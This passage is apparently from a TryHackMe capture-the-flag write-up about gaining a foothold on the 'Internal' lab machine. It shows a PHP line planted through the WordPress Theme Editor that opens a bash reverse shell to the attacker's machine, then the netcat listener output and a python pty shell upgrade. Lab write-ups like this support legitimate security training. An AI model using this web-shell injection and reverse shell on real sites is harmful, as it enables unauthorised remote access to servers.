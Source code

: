 Access the wordpress admin dashboard with the credentials we found. We will spawn a reverse php shell. Go into the Theme Editor and add the following line into one of the php files.

```bash
exec("/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_ATTACKBOX_IP>/1234 0>&1'");
```

I chose the functions.php file. In the way I did it the wordpress site breaks down. If you want to avoid that you can put the line in the 404.php file.

![](../assets/images/tryhackme/offensive_pentesting/internal/plugin.png)

We start a listener and trigger the shell by refreshing the blog page.

```bash
rlwrap nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.4.224 33356 received!
bash: cannot set terminal process group (1030): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/var/www/html/wordpress/wp-admin$
```

We now have a shell with the `www-data` user.

```bash
www-data@internal:/var/www/html/wordpress/wp-admin$ whoami
whoami
www-data
```

We stabilize it thanks to python.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Navigating the filesystem we find an interesting file in _/opt_

